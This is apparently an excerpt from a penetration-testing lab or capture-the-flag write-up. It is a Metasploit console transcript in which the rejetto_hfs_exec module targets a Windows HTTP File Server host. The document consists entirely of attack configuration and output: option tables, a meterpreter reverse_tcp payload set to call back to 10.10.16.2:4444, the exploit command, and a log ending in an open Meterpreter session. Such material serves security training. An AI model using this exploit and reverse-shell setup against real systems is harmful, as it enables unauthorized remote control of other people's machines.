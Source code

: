 ```bash

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.27.39
RHOSTS => 10.0.27.39
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Using URL: http://0.0.0.0:8080/hBiK4euisGqLpno
[*] Local IP: http://10.10.16.2:8080/hBiK4euisGqLpno
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /hBiK4euisGqLpno
[*] Sending stage (175174 bytes) to 10.0.27.39
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.27.39:49234) at 2023-07-04 07:26:33 +0530
[!] Tried to delete %TEMP%\DtbsuvF.vbs, unknown result
[*] Server stopped.

meterpreter >
```
